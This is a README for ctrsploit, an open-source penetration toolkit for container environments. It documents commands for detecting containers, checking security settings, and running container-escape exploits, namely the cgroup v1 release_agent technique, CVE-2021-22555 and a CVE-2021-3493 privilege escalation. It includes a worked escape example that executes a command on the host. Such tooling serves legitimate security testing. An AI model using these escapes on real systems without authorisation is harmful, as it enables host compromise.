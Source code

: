 # ctrsploit: A penetration toolkit for container environment

[中文文档](./README-ZH.md)

ctrsploit [kənˈteɪnər splɔɪt] , follows [sploit-spec](https://github.com/ctrsploit/sploit-spec) v0.4.3

## Why ctrsploit

see [here](https://github.com/ctrsploit/ctrsploit/discussions/11)

## Pre-Built Release

https://github.com/ctrsploit/ctrsploit/releases

## Self Build

### Build in Container

```bash
make binary && ls -lah bin/release
```

### Build in Local

```
make build-ctrsploit
```

## Usage

### Quick-Start

```
wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/latest/download/ctrsploit_linux_amd64 && chmod +x ctrsploit
NAME:
   ctrsploit - A penetration toolkit for container environment

               ctrsploit is a command line ... //TODO


USAGE:
   ctrsploit [global options] command [command options] [arguments...]

COMMANDS:
   auto, a      auto gathering information, detect vulnerabilities and run exploits
   env, e       gather information
   exploit, x   run a exploit
   checksec, c  check security inside a container
   helper, he   some helper commands such as local privilege escalation
   version      Show the sploit version information
   help, h      Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --debug         Output information for helping debugging sploit (default: false)
   --experimental  enable experimental feature (default: false)
   --colorful      output colorfully (default: false)
   --json          output in json format (default: false)
   --help, -h      show help
```

### gather information

usage

```
root@ctr:/# ./ctrsploit env
NAME:
   ctrsploit env - gather information

USAGE:
   ctrsploit env command [command options] [arguments...]

COMMANDS:
   auto              auto
   where, w          detect whether you are in the container, and which type of the container
   graphdriver, g    detect graphdriver type and extend information
   cgroups, c        gather cgroup information
   capability, cap   show the capability of pid 1 and current process
   seccomp, s        show the seccomp info
   apparmor, a       show the apparmor info
   selinux, se       show the selinux info
   fdisk, f          like linux command fdisk or lsblk // TODO
   kernel, k         collect kernel environment information
   namespace, n, ns  check namespace is host ns
   help, h           Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help
```

where

```
root@ctr:/# ./ctrsploit  env  w

===========Container===========
[Y]  Is in Container

===========Docker===========
[Y]  .dockerenv exists
[N]  rootfs contains 'docker'   
[N]  cgroups contains 'docker'
[Y]  the mount source of /etc/hosts contains 'docker'   
[Y]  hostname match regex ^[0-9a-f]12$
---
[Y]  => Is in docker

===========k8s===========
[N]  /var/run/secrets/kubernetes.io exists
[N]  hostname match k8s pattern
[N]  the mount source of /etc/hosts contains 'pods'
[N]  contains 'kubepods'
---
[N]  => is in k8s
```

### run a exploit

```
root@2aa13a052102:/# ./ctrsploit exploit
NAME:
   ctrsploit exploit - run a exploit

USAGE:
   ctrsploit exploit command [command options] [arguments...]

COMMANDS:
   cgroupv1-release_agent, ra                       escape tech by using the notify_on_release of cgroup v1
   cgroupv1-release_agent-unknown_rootfs, ra3       escape tech by using the notify_on_release of cgroup v1 without known rootfs
   help, h                                          Shows a list of commands or help for one command

OPTIONS:
   --help, -h  show help (default: false)

```

eg. : escape by 'cgroupv1-release_agent' tech.

```
root@host # docker run -ti --rm --security-opt="apparmor=unconfined" --cap-add="sys_admin" busybox
root@ctr # wget -O ctrsploit https://github.com/ctrsploit/ctrsploit/releases/download/v0.4/ctrsploit_linux_amd64 && chmod +x ctrsploit
root@ctr # ./ctrsploit e ra -c "cat /etc/hostname"
```

### check security

Just execute `ctrsploit checksec` or standalone binary file `checksec` in the container.

```
./checksec_linux_amd64 auto
[N]  cap_sys_admin      # Container can be escaped when has cap_sys_admin and use cgroups v1
[N]  host_net_ns        # The network namespace of the host is shared
...
```

## Details

### env

| command                          | alias | description                                                              |
|----------------------------------|-------|--------------------------------------------------------------------------|
| [auto](./env/auto)               |       | auto gather environment information                                      |
| [where](./env/where)             | w     | detect whether you are in the container, and which type of the container |
| [graphdriver](./env/graphdriver) | g     | detect graphdriver type and extend information                           |
| [cgroups](./env/cgroups)         | c     | gather cgroup information                                                |
| [capability](./env/capability)   | cap   | show the capability of pid 1 and current process                         |
| [seccomp](./env/seccomp)         | s     | show the seccomp info                                                    |
| [apparmor](./env/apparmor)       | a     | show the apparmor info                                                   |
| [namespace](./env/namespace)     | n, ns | check namespace is host ns                                               |

### exploit

| exploit                                                                                  | alias | description                                                                  |
|------------------------------------------------------------------------------------------|-------|------------------------------------------------------------------------------|
| [cgroupv1-release_agent](./exploit/cgroupv1-release_agent)                               | ra    | escape tech by using the notify_on_release of cgroup v1                      |
| [cgroupv1-release_agent-unknown_rootfs](./exploit/cgroupv1-release_agent-unknown_rootfs) | ra3   | escape tech by using the notify_on_release of cgroup v1 without known rootfs |
| [cve-2021-22555_ubuntu18.04](./exploit/CVE-2021-22555_ubuntu18.04)                       | 22555 | escape tech by using the CVE-2021-22555 (ubuntu18.04)                        |

### helper

| helper                                  | alias                    | description                    |
|-----------------------------------------|--------------------------|--------------------------------|
| [cve-2021-3493](./helper/cve-2021-3493) | ubuntu-overlayfs-pe,3493 | Ubuntu OverlayFS Local Privesc |

### checksec

Just execute `ctrsploit checksec` or standalone binary file `checksec`.
